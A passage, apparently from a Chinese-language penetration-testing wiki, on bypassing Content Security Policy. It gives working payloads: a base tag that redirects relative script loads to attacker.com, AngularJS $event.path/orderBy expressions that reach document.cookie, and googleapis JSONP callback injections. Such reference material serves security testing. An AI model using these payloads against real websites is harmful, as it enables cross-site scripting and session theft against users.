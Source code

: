 ### Iframes JS 执行

{% content-ref url="../xss-cross-site-scripting/iframes-in-xss-and-csp.md" %}
[iframes-in-xss-and-csp.md](../xss-cross-site-scripting/iframes-in-xss-and-csp.md)
{% endcontent-ref %}

### 缺少 **base-uri**

如果缺少 **base-uri** 指令，您可以利用它执行 [**悬挂标记注入**](../dangling-markup-html-scriptless-injection/)。

此外，如果 **页面使用相对路径加载脚本**（如 `<script src="/js/app.js">`）并使用 **Nonce**，您可以利用 **base** **标签** 使其 **从您自己的服务器加载** 脚本，从而实现 **XSS**。\
如果易受攻击的页面是通过 **httpS** 加载的，请在 base 中使用 httpS URL。
```html
<base href="https://www.attacker.com/">
```
### AngularJS 事件

一种特定的策略称为内容安全策略 (CSP) 可能会限制 JavaScript 事件。然而，AngularJS 引入了自定义事件作为替代。在事件中，AngularJS 提供了一个独特的对象 `$event`，引用原生浏览器事件对象。这个 `$event` 对象可以被利用来规避 CSP。值得注意的是，在 Chrome 中，`$event/event` 对象具有一个 `path` 属性，包含一个对象数组，涉及事件的执行链，`window` 对象始终位于末尾。这个结构对于沙箱逃逸策略至关重要。

通过将这个数组传递给 `orderBy` 过滤器，可以对其进行迭代，利用终端元素（`window` 对象）触发像 `alert()` 这样的全局函数。下面的代码片段阐明了这个过程：
```xml
<input%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27>#x
?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x
```
这个代码片段突出了使用 `ng-focus` 指令触发事件，利用 `$event.path|orderBy` 操作 `path` 数组，并利用 `window` 对象执行 `alert()` 函数，从而揭示 `document.cookie`。

**在** [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) **中查找其他 Angular 绕过方法**

### AngularJS 和白名单域名
```
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;
```
一个在 Angular JS 应用程序中为脚本加载列入白名单的 CSP 策略可以通过调用回调函数和某些易受攻击的类来绕过。有关此技术的更多信息，请参阅此 [git repository](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22) 中的详细指南。

有效的有效载荷：
```html
<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>

<!-- no longer working -->
<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1)">
```
其他 JSONP 任意执行端点可以在 [**这里**](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) 找到（其中一些已被删除或修复）
